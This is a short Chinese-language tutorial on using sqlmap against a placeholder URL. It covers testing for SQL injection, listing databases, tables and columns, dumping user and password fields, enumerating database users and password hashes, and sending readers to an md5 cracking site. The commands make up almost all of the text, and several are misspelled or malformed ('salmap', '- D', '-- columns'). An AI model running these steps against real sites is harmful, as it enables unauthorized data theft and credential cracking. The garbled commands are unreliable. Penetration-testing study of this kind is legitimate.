 ## 注入点判断
1. 判断是否存在注入点
```
sqlmap -u http://xxx
```
当参数有多个时，需要加双引号
```
sqlmap -u "http://xxx/?id=1&uid=2"
```
2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用
```
salmap -r txt文本
```

## 存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库
```
sqlmap -u http://xxx/ --dbs
```
2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库
<img src="../pictures/j4ddnt2dp1.png" width="600" />
那么现在查询dkeye数据库中有哪些表  

```
sqlmap -u http://xxx/ -D dkeye --tables
```
3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表
<img src="../pictures/j79q4i3bahf.png" width="200" />
使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```

4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```



## 获取与数据库用户相关的信息
1. 获取到数据库中的所有用户
```
salmap -u "http://xxx/" --users
```
使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码
```
salmap -u "http://xxx/" --password
``` 
获取到的密码是经过md5加密的，可以在[md5解密网站](https://www.cmd5.com/)
3. 获取当前网脑数据库的名称
```
salmap -u "http://xxx/" --current-db
``` 
4. 获取当前网览数据库的用户名称
```
salmap -u "http://xxx/" --current-user
``` 


```{.python .input}

```
